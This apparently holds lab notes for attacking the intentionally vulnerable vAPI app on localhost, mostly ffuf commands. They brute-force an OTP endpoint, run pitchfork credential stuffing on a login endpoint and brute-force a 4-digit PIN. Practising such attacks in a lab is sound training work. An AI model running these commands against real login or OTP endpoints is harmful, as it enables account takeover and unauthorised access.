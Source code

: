 # Split into 5 files (modify -l for different number of files)
split -l 2000 -d wordlist.txt wordlist_part

## ffuf
    ffuf -w list.txt -X POST -d '{"otp":"FUZZ"}' -H "Content-Type: application/json" -u http://localhost/vapi/api4/otp/verify --mc 200 -s

## ffuf pitchfork
    ffuf -w emails.txt:FUZZ1 -w pwds.txt:FUZZ2 -d '{"email":"FUZZ1","password":"FUZZ2"}' -X POST -H "Content-Type: application/json" -u http://localhost/vapi/api2/user/login -mc 200 -mode pitchfork

## filtering out by reponse size ffuf
    ffuf -w 4_digit_pin.txt -d '{"username":"richardbranson","pin":"FUZZ"}' -X POST -H "Content-Type: application/json" -u http://localhost/vapi/api9/v1/user/login -fs 0
